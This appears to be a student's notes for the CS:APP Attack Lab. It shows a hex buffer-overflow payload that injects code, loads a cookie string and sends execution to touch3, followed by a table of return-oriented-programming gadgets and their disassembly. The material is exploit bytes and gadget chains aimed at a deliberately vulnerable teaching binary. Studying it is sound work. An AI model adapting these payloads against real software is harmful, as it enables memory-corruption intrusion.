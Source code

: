 ```asm
48 83 ec 20 48 8d 7c 24   /* cbuff_start: exploit_code */
08 c3 ff ff ff ff ff ff   /* cbuff_8:     exploit_code */
fa 18 40 00 00 00 00 00   /* cbuff_16:    touch3_addr */
35 39 62 39 39 37 66 61   /* cbuff_24:    cookie_str */
00 00 00 00 00 00 00 00   /* cbuff_end:   empty */
78 dc 61 55 00 00 00 00   /* return_addr: cbuff_start */
```

# Gadgets

## Gadgets Table

| Name     | Address            | Address[hex string]     | Effect                 |
| -------- | ------------------ | ----------------------- | ---------------------- |
| gadget_1 | 0x00000000004019cc | cc 19 40 00 00 00 00 00 | pop %rax               |
| gadget_2 | 0x00000000004019c5 | c5 19 40 00 00 00 00 00 | movq %rax, %rdi        |
| gadget_3 | 0x0000000000401a06 | 06 1a 40 00 00 00 00 00 | movq %rsp, %rax        |
| gadget_4 | 0x00000000004019dd | dd 19 40 00 00 00 00 00 | movl %eax, %edx        |
| gadget_5 | 0x0000000000401a34 | 34 1a 40 00 00 00 00 00 | movl %edx, %ecx        |
| gadget_6 | 0x0000000000401a13 | 13 1a 40 00 00 00 00 00 | movl %ecx, %esi        |
| gadget_7 | 0x00000000004019d6 | d6 19 40 00 00 00 00 00 | lea (%rdi,%rsi,1),%rax |

## Gadgets Details (Assembly Code)

```asm
gadget_1 <0x00000000004019cc>:
  58        pop   %rax
  90        nop
  c3        ret

gadget_2 <0x00000000004019c5>:
  48 89 c7  movq  %rax, %rdi    # rdi = rax
  90        nop
  c3        ret

gadget_3 <0x0000000000401a06>:
  48 89 e0  movq %rsp, %rax     # rax = rsp
  c3        ret

gadget_4 <0x00000000004019dd>:
  89 c2     movl %eax, %edx     # edx = eax
  90        nop
  c3        ret

gadget_5 <0x0000000000401a34>:
  89 d1     movl  %edx, %ecx    # ecx = edx
  38 c9     cmpb  %cl           # set condition codes <not-effective>
  c3        ret

gadget_6 <0x0000000000401a13>:
  89 ce     movl  %ecx, %esi    # esi = ecx
  90        nop
  90        nop
  c3        ret

gadget_7 <0x00000000004019d6>:
  48 8d 04 37     lea    (%rdi,%rsi,1),%rax   # rax = rdi + rsi
```